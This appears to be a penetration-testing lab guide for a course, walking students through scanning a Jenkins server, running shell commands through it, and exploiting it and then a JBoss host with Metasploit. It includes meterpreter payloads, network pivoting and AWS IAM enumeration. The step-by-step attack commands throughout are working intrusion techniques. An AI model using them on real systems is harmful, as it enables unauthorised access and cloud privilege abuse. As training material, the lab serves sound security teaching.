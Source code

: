 # Lab 2

**Table of Contents**

- [Enumeration](##enumeration)
- [Exploiting Jenkins Manually](##exploiting-jenkins-manually)
- [Introducing Metasploit](##introducing-metasploit)
- [Exploiting Jenkins with Metasploit](##exploiting-jenkins-with-metasploit)
- [Pivot/Penetrate](##pivot/penetrate)

# Network Penetration

In this lab, we will be exploiting a popular Build Platform and use it to pivot deeper into the network.

*Resources:*

- [https://nmap.org/book/man.html](https://nmap.org/book/man.html)
- [https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)
- [http://docs.aws.amazon.com/cli/latest/](http://docs.aws.amazon.com/cli/latest/)

---

## Enumeration

Find a vulnerable host.

1. Install Nmap.

  ```
$ sudo yum -y install nmap
  ```

2. Port scan a vulnerable host.

  ```
$ nmap -PN -p8080 -sV 52.39.125.179
  ```

## Exploiting Jenkins Manually

1. Load `http://52.39.125.179:8080` on your browser.

2. Select `New Item`, enter your student ID under `Item name` and select `Freestyle project`. Click `OK`.

3. Under `Build`, click `Add a build step`, select `Execute shell`. In the `Command` text box enter `cat /etc/passwd` and click `Save`.

4. Select `Build Now`, then click the last `Build History` job and click `Console Output`. What do you see? Would you put this host on the internet as is?

5. Go back to your project and click `Configure` run other commands such as `whoami`, `pwd` and `ps` to familiarize yourself with this host. What flavor of linux is this? What packages are installed?


## Introducing Metasploit

1. Install Metasploit.

  Download and extract the Metasploit package from the DSO bucket: `dso-public-bucket`

  ```
$ curl -O https://s3-us-west-2.amazonaws.com/dso-public-bucket/metasploit-framework-master.zip
$ unzip metasploit-framework-master.zip
  ```

  Alternatively clone the Metasploit Git project directly.

  ```
$ git clone https://github.com/rapid7/metasploit-framework.git
  ```

2. Install dependencies and run `msfconsole`.

  ```
$ cd metasploit-framework-master
$ sudo yum -y install libpcap-devel postgresql-devel libsqlite3-dev sqlite-devel
$ bundle install
$ ./msfconsole

# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v4.12.10-dev                         ]
+ -- --=[ 1556 exploits - 902 auxiliary - 268 post        ]
+ -- --=[ 438 payloads - 38 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf >
  ```

## Exploiting Jenkins with Metasploit

1. Search for the Jenkins-CI Script-Console Java Execution exploit. You can do this using the `search` keyword.

2. Configure the exploit for use.

  In the example below we are using TCP port 10001 to create a listener (`LPORT`). Please contact the instructor to see which port you should be using.

  ```
> use exploit/multi/http/jenkins_script_console
> show options
> set RHOST 52.39.125.179
> set RPORT 8080
> set TARGETURI /
> set target 1
> set payload linux/x86/meterpreter/bind_tcp
> set LPORT 10001
  ```

2. Exploit the target and run the shell.

  ```
> exploit
> shell
  ```

3. Run the AWS CLI to determine if this host has IAM permissions.

  ```
$ aws iam list-users --region us-west-2
  ```

4. Since this host does not have IAM privileges, let's find a host that does.

  Run the AWS CLI to determine the IP address of another host that may have an overly permissive instance profile/role.

  ```
$ aws ec2 describe-instances --region us-west-2
  ```

  Is that shot of JSON to the eye? Try filtering the results, like this:

  ```
aws ec2 describe-instances --region us-west-2 --filters Name=iam-instance-profile.arn,Values=arn:aws:iam::717986480831:instance-profile/dso-overly-permissive
  ```

  Make note of this host's IP address. This is target 2.

  Throw the shell into the background by pressing `ctrl-z`, followed by `y` and `ENTER`. Also throw the Meterpreter shell into the background by again pressing `ctrl-z`, followed by `y` and `ENTER`. Then list your sessions.

  ```
> sessions
  ```

  Make note of the session ID, e.g., `1`.

## Pivot/Penetrate

1. Add a route to pivot to a host that is deeper inside the network (target 2).

  E.g.,

  ```
> route add 10.0.6.0 255.255.255.0 1
> route print
  ```

2. Scan the host you discovered for vulnerabilities.

  ```
> use auxiliary/scanner/http/jboss_vulnscan
> show options
> set RHOSTS 10.0.6.165
> set RPORT 8080
> show options
> run
  ```

2. Search for the JBoss DeploymentFileRepository WAR Deployment exploit. E.g., `search JMXInvokerServlet`.

3. Configure the exploit.

  Use this formula to determine the value for `LPORT`. `LPORT = 10000 + Student ID number`. So, student 1, `LPORT` would be `10001`.

  ```
> use exploit/multi/http/jboss_invoke_deploy
> set RHOST 10.0.6.165
> set target 1
> set payload java/meterpreter/bind_tcp
> set LPORT 10001
> exploit
  ```

4. Run the AWS CLI to determine if this host has IAM permissions.

  ```
> shell
python -c 'import pty; pty.spawn("/bin/bash")'
$ export http_proxy=http://proxy:3128
$ export https_proxy=http://proxy:3128
$ aws iam list-users --region us-west-2
  ```

  What does this mean?
